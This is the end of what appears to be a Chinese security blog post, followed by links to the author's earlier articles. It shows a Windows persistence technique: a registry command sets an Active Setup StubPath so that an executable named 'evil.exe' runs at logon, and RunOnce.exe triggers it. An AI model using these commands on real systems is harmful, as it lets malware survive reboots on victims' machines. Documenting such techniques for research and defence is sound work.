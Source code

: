 [![](assets/1706145586-2b17f06f6e5618fecf94d264805cc585.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124113941-34f92452-ba6a-1.png)  
reg add "HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Active Setup\\Installed Components{C9E9A340-D1F1-11D0-821E-444553540600}" /v StubPath /t REG\_SZ /d "C:\\Users\\axingg\\desktop\\evil.exe"  
RunOnce.exe /AlternateShellStartup  
[![](assets/1706145586-f698cc189fa826facc532a339e75aa08.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124114032-538cc8a6-ba6a-1.png)

# 后记

前两篇文章发表在跳跳糖，文章链接：  
[https://tttang.com/archive/1781/](https://tttang.com/archive/1781/)  
[https://tttang.com/archive/1718/](https://tttang.com/archive/1718/)
